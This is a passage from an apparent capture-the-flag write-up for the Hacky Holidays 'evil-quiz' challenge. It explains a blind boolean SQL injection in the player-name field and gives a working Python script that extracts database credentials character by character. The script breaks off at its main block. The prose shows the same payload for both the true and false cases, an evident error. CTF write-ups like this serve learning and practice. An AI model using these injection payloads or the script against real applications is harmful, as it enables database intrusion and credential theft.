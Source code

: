 After trying some input manipulation, I found out that the name input at the beginning of the quiz is vulnerable to SQL injection and we can see the result of a boolean query by analyzing the number of players displayed at the end of the game: when using `invalidplayername' or if(1=0, 1, 0); -- ` as username, zero players are selected from the database, therefore the count of other players equals zero, whereas when adding `invalidplayername' or if(1=0, 1, 0); -- `, all players are selected and the count is greater than zero.

Unfortunately, we need to submit multiple requests to get a result. Instead of trying to find out how to use SQLMap for that task / whether that is possible at all, I used the following Python script for getting the credentials:

```
import re
import requests
import string
from urllib3.exceptions import InsecureRequestWarning

# Suppress only the single warning from urllib3 needed.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

RHOST = "https://hackyholidays.h1ctf.com"
# proxies = { "http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080" }
proxies = {}

def get_quiz(s):
    s.get(f"{RHOST}/evil-quiz")

def post_quiz(s, payload):
    data = { "name": payload }
    s.post(f"{RHOST}/evil-quiz", data=data)

def post_start(s):
    data = { "ques_1": 0, "ques_2": 0, "ques_3": 0 }
    res = s.post(f"{RHOST}/evil-quiz/start", data=data)
    m = re.search(".*There is ([0-9]+) other player\(s\) with the same name as you!.*", res.text, re.DOTALL)
    if m:
        return m.group(1)

def submit_try(s, payload):
    post_quiz(s, payload)
    return post_start(s)

def exploit(s, query):
    alphabet = string.printable
    resume = True
    result = ""
    position = 1
    while resume:
        resume = False
        for c in alphabet:
            candidate = ord(c)
            payload = f"sdfasdfgdsfgx' or substring(binary({query}), {position}, 1) = char({candidate}); -- "
            if int(submit_try(s, payload)) > 0:
                result += c
                print(f"[+] Found: {result}")
                position += 1
                resume = True
                break
    return result



if __name__ == "__main__":
```